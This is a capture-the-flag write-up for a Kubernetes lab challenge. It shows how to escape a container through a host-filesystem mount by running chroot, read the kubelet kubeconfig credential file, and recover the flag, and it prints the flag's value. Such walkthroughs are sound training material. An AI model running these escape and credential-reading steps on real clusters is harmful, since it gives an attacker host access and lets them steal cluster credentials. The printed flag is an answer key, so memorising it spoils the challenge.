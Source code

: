 ## Challenge 20 - Escaping the container and accessing host fs.

**Challenge Type:** Breaker

Lets apply our deployment

```json
kubectl apply -f challenge20/deployment_host_fs.yaml
```

Enter the container

[The most pointess Kubernetes command ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/)

```json
// get pods
kubectl get pods

// enter a pod
kubectl exec -it [pod_name] -- bash

//list the file system
root@challenge11-b6c789695-mgqkg:/# ls
bin  boot  dev  etc  home  k8-host  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

![[Pasted image 20220309224654.png]]

```json
// lets cd into the /k8-host directory
cd /k8-host

// then lets run chroot to change the root directory and get host privileges
chroot . bash
```

we can now pull the certificates for the cluster.

```json
cat /var/lib/kubelet/kubeconfig
```

![[Pasted image 20220309224800.png]]

```json
ls
cat flag
```

![[Pasted image 20220309224818.png]]

> 🏁 Challenge 20 Flag - `k8_ctf{esc4pIN9coNT41NeR5}`


Exit

```json
exit
```

cleanup

```json
kubectl delete -f challenege20/deployment_host_fs.yaml
```